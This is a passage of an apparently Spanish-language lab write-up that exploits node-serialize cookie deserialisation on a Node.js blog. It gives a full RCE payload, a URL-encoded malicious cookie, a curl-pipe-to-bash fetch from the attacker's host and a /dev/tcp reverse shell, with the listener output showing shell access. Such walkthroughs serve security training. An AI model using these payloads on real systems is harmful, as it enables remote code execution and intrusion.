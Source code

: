 ```null
    res.render(&#39;articles/index&#39;, { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use(&#39;/articles&#39;, articleRouter)
app.use(&#39;/login&#39;, loginRouter)


app.listen(5000)
```

Se aplica deserialización de la cookie de sesión. En [Hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization#node-serialize) explican como ejecutar comandos a través de node-js. Creo un archivo index.html que se encargue de enviarme una reverse shell

```null
catr index.html
bash -c 'bash -i >& /dev/tcp/10.10.16.69/443 0>&1'
```

Con curl lo traigo al servidor y ejecuto en el servidor

```null
echo 'curl 10.10.16.69 | bash' | base64 -w 0; echo
Y3VybCAxMC4xMC4xNi42OSB8IGJhc2gK
```

```null
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo cGluZyAtYyAxIDEwLjEwLjE2LjY5Cg== |base64 -d|bash', function(error, stdout, stderr){console.log(stdout)});}()"}
```

La cookie tiene que estar en formato URL-Encode (Para todos los caracteres)

```null
Cookie: auth=%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%59%33%56%79%62%43%41%78%4d%43%34%78%4d%43%34%78%4e%69%34%32%4f%53%42%38%49%47%4a%68%63%32%67%4b%20%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%7d%29%3b%7d%28%29%22%7d
```

Recibo la petición a mi equipo

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.139 - - [28/Jul/2023 14:36:58] "GET / HTTP/1.1" 200 -
```

Gano acceso al sistema

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.69] from (UNKNOWN) [10.10.11.139] 46080
bash: cannot set terminal process group (860): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/admin/.bashrc: Permission denied
admin@nodeblog:/opt/blog$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/admin/.bashrc: Permission denied
```
